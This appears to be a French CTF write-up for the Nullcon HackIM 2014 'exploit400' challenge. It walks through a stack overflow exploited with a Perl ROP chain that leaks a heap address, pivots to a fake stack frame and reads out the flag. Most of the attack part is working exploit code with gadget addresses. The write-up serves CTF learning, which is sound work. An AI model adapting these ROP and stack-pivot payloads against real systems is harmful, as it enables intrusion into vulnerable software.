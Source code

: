 Title: [NULLCON-CTF-2014] Exploit 400
Date: 2014-01-26
Tags: ctf
Author: Tosh
Summary: nullcon-ctf exploit400 write-up

Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](http://www.t0x0sh.org/repo/CTFNULLCON_2014/exploit400)
Et la source ici : [exploit400.c](http://www.t0x0sh.org/repo/CTFNULLCON_2014/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

	:::console
	RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
	No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   exploit400

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

	:::perl
	$payload .= pack('L', 0x080483d0); # read@plt                                                                                                                                      
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000000); # stdin                                                                                                                                         
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 4); # size

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.

	:::perl

	$payload .= pack('L', 0x080483f0); # malloc@plt                                                                                                                                    
	$payload .= pack('L', 0x080483a0); # pop;ret                                                                                                                                       
	$payload .= pack('L', 0x100); # size

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

	:::perl

	$payload .= pack('L', 0x080483a0); # pop ebx; ret                                                                                                                                  
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA                                                                                                                               

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax 

Je m'envois alors cette valeur via la fonction write

	:::perl
	$payload .= pack('L', 0x08048440); # write@plt                                                                                                                                     
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000001); # stdout                                                                                                                                        
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 4); # size

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

	:::perl
	$payload .= pack('L', 0x080483d0); # read@plt                                                                                                                                      
	$payload .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                      
	$payload .= pack('L', 0x00000000); # stdin                                                                                                                                         
	$payload .= pack('L', 0x080498d8); # DATA                                                                                                                                          
	$payload .= pack('L', 0x130); # size                                                                                                                                               

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret                                                                                                                                 
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret

Envois du payload

	:::perl
	print $sock $payload;

Mise à zéro d'une variable en mémoire (premier read)

	:::perl
	print $sock "\x00\x00\x00\x00";

Lecture de l'adresse du HEAP envoyée

	:::perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

	:::perl

	$stack .= pack('L', 0x08048440); # write@plt                                                                                                                                       
	$stack .= pack('L', 0x080486a7); # pop3;ret                                                                                                                                        
	$stack .= pack('L', 0x00000001); # stdout                                                                                                                                          
	$stack .= pack('L', $r-0x48); # FLAG                                                                                                                                               
	$stack .= pack('L', 100); # size                                                                                                                                                   

	print $sock $stack;

Réception du flag et validation du challenge !!!

	:::perl

	while($r = <$sock>) {
		print $r;
	}

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/nullcon_ctf_2014/exploit400.pl)

